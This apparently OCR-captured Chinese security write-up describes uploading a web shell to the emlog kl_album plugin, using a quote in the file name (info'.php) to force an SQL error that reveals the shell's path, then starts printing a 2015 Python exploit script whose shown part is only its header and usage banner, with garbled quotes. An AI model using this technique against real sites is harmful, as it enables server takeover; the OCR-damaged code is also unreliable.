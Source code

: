填入目标url，并选择要上传的shell。（如图，我这里是info'.php，会令SQL出错）。点击GO!

之后可以发现出错了，可以发现文件名已经爆出来了：../content/plugins/kl_album/upload/201411/38493d4468377f721357e9c64f93637d2014111211381611097.php
访问可见shell：

![image](img/4fa4299862a7e6e88e31a56e41c16413.png)

这里给出独自等待的一份payload：

```
#!/usr/bin/env python
# -*- coding: gbk -*-
# -*- coding: utf-8 -*-
# Date: 2015/4/30
# Created by 独自等待
# 博客 http://www.waitalone.cn/
import sys, os, re, time `try:

import requests

except ImportError:

raise SystemExit(’\n[!] requests模块导入错误,请执行pip install requests安装!’)

def usage():

# os.system([‘clear’, ‘cls’][os.name == ‘nt’])

print ‘+’ + ‘-’ * 60 + ‘+’

print ‘\t Python emlog相册插件getshell exploit’

print ‘\t   Blog：[http://www.waitalone.cn/](http://www.waitalone.cn/)’

print ‘\t\t Code BY： 独自等待’

print ‘\t\t Time：2015-04-30’

print ‘+’ + ‘-’ * 60 + ‘+’

if len(sys.argv) != 2:

print ‘用法: ’ + os.path.basename(sys.argv[0]) + ’ EMLOG 网站地址’

```